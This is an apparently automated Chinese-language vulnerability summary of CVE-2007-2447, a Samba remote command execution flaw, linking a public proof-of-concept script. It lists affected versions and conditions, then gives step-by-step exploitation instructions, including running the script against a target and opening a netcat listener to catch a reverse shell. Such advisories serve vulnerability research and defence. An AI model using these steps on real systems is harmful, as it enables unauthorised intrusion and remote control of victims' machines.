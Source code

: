 ## CVE-2007-2447-Samba-远程命令执行

**漏洞编号:** CVE-2007-2447

**漏洞类型:** 远程命令执行

**影响应用:** Samba

**危害等级:** 高危，可导致完全控制受影响系统

**影响版本:** 3.0.0 to 3.0.25rc3

**利用条件:** 目标系统运行Samba服务，且启用了 'username map script' 选项（对于SamrChangePassword函数利用）或允许远程用户进行打印和文件共享管理 (对于其他MS-RPC函数利用)

**POC 可用性:** 是

**投毒风险:** 1%

## 详情

CVE-2007-2447 存在于 Samba 的 MS-RPC 功能中。攻击者可以通过在 (1) SamrChangePassword 函数 (当启用了 `username map script` 选项时) 或 (2) 远程打印和 (3) 文件共享管理相关的其他 MS-RPC 函数中，利用 shell 元字符注入，来执行任意命令。提供的 exploit 代码 `samba-exploit.py` 尝试利用此漏洞。它通过构造包含反向 shell payload 的用户名，连接到目标 Samba 服务器。如果目标服务器启用了 `username map script` 并且存在漏洞，Samba 将会执行该 payload，从而允许攻击者在目标系统上执行任意命令。该漏洞的利用依赖于目标系统特定的配置，特别是是否启用 `username map script` 以及是否允许未经授权的访问打印和文件共享管理功能。该 POC 仅包含漏洞验证代码，几乎不含有恶意payload，LICENSE也为MIT开源协议,因此判定投毒风险极低。

**利用方式：**

1.  **确定目标 Samba 版本：** 确保目标运行的是受影响的 Samba 版本（3.0.0 到 3.0.25rc3）。
2.  **检查配置：** 确认目标系统启用了 `username map script` 选项（对于SamrChangePassword函数利用）或允许远程用户进行打印和文件共享管理 (对于其他MS-RPC函数利用)。
3.  **准备Payload：**  修改提供的POC脚本中的 payload,  payload 目前是反向shell,可以替换为其他的命令.
4.  **执行Exploit：** 运行 `samba-exploit.py` 脚本，提供目标 IP 地址、端口以及攻击者机器的 IP 地址和监听端口。例如：`python samba-exploit.py <RHOST> <RPORT> <LHOST> <LPORT>`
5.  **监听连接：** 在攻击者机器上使用 `nc -lvnp <LPORT>` 监听指定的端口，等待反向 shell 连接。

**项目地址:** [ozuma/CVE-2007-2447](https://github.com/ozuma/CVE-2007-2447)

**漏洞详情:** [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)